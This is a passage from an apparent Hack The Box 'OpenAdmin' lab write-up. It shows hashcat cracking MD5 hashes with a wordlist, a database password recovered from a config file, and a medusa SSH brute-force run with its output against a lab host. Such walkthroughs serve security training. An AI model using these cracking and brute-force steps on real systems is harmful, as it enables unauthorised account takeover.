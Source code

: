 ### Cracking passwords with `hashcat`

{% highlight bash %}
$ echo "098f6bcd4621d373cade4e832627b4f6" > hashes
$ echo "21232f297a57a5a743894a0e4a801fc3" >> hashes
$ hashcat hashes -m 0 /usr/share/wordlists/rockyou.txt
#...
{% endhighlight %}

> `-m 0` tells hashcat which mode to use. 0 is MD5.

![hashcat](/assets/img/htb/machines/linux/easy/openadmin/hashcat.png)

These credentials are for [http://10.10.10.171/ona/](http://10.10.10.171/ona/)

## User (jimmy) 

The password we found in `/opt/ona/www/local/config/database_settings.inc.php` (`n1nj4W4rri0R!`) worked to log in as jimmy with SSH.

### Bruteforcing SSH

#### `medusa`

{% highlight bash %}
$ cat users.txt 
jimmy
joanna
$ cat pass.txt 
n1nj4W4rri0R!
test
admin
$ medusa -h $TARGET -U users.txt -P pass.txt -M ssh 
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: jimmy (1 of 2, 0 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.171 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: test (2 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: admin (3 of 3 complete)
{% endhighlight %}
